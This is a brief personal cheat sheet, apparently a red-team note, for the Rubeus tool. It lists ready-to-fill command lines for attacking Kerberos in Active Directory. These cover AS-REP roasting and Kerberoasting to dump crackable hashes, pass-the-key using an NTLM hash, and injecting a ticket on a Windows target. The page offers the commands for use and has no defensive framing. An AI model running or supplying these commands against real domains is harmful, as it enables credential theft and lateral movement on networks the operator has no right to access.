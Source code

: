 ```yaml
---
title: Rubeus
updated: 2020-04-09 19:39:49Z
created: 2020-04-09 03:20:54Z
---
```


# Source

- https://github.com/GhostPack/Rubeus

Review the opsec notes before compiling the program in visual studio. 

## ASREProasting:

chek for users in the current domain:

- Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>

## Kerberoasting:

- Rubeus.exe kerberoast /outfile:<output_TGSs_file>

- Rubeus.exe kerberoast /outfile:hashes.txt [/spn:"SID-VALUE"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] 

## Pass the key (PTK):

- .\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt


## Using the ticket on a Windows target: 

- Rubeus.exe ptt /ticket:<ticket_kirbi_file>
